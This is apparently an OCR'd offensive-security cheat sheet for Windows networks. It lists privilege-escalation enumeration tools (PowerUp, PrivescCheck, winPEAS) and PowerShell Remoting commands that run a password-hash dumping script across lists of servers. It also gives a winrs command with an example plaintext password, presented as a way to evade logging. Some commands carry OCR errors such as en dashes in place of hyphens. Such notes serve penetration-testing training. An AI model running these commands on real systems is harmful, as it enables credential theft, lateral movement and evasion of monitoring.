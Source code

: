 # PowerUp
Invoke-AllChecks
# Privesc:
Invoke-PrivEsc
# PrivescCheck:
Invoke-Privesc Check
# PEASS-ng:
winPEASx64.exe

# PowerShell Remoting Use below to execute commands or scriptblocks:
Invoke-Command–Scriptblock {Get-Process} -ComputerName
(Get-Content <list_of_servers>)
# Use below to execute scripts from files
Invoke-Command–FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)

# Use below to execute locally loaded function on the remote machines:
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)
# In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way:
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
# a function call within the script is used:
Invoke-Command–Filepath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)

# execute "Stateful" commands using Invoke-Command:
$Sess = New-PSSession–Computername Server1
Invoke-Command–Session $Sess–ScriptBlock {$Proc = Get-Process}
Invoke-Command–Session $Sess–ScriptBlock {$Proc.Name}

# We can use winrs in place of PSRemoting to evade the logging (and still reap the benefit of 5985 allowed between hosts):
winrs -remote:server1 -u:server1\administrator -p:Pass@1234 hostname
